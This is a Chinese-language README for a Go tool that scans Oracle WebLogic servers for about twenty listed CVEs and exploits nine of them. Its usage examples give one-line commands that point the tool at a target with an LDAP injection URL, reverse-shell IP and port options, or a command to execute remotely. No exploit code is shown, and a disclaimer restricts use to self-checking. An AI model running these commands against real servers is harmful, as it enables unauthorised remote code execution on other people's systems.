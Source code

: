 👻# WeblogicScan.go

只是好好的集成了一下，方便和我一样的懒人。

目前可检测的POC

```go
CVE-2014-4210
CVE-2016-0638
CVE-2016-3510
CVE-2017-10271
CVE-2017-3248
CVE-2017-3506
CVE-2018-2628
CVE-2018-2893
CVE-2018-2894
cve-2018-3191
cve-2018-3245
cve-2018-3252
CVE-2019-2725
CVE-2019-2729
CVE-2019-2890
cve-2020-2551
cve-2020-2555
cve-2020-2883
cve-2020-14750
cve-2020-14882
cve-2020-14883
cve-2023-21839
```

目前可利用的EXP

```go
CVE-2016-0638
CVE-2016-3510
CVE-2017-3248
CVE-2018-2628
CVE-2018-2893
CVE-2020-14882
cve-2020-2555
cve-2020-2883
cve-2023-21839
```

🐳# 使用示例

```md
-u url
  you target, example: 127.0.0.1
-p Port
  you target Port, example: "whoami"
-e EXP
  Exploitation alone, example: ""
-l ldap
  ldap server, example: "ldap://127.0.0.1/#eval"
-ri rip
  reverse ip
-rp rport
  reverse port
```

+ POC一键检测
```md
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval
```

+ EXP单个利用，指定EXP末尾数字即可
```go
//CVE-2020-14882
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -l ldap://127.0.0.1/#eval -e 14882

//cve-2020-2883
WeblogicScanner.exe -u 127.0.0.1 -p 7001 -c calc.exe -e 2883
```

👮# 免责声明

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

📷# 参考

https://github.com/0xn0ne/weblogicScanner

https://github.com/rabbitmask/WeblogicScan

https://github.com/4ra1n/CVE-2023-21839
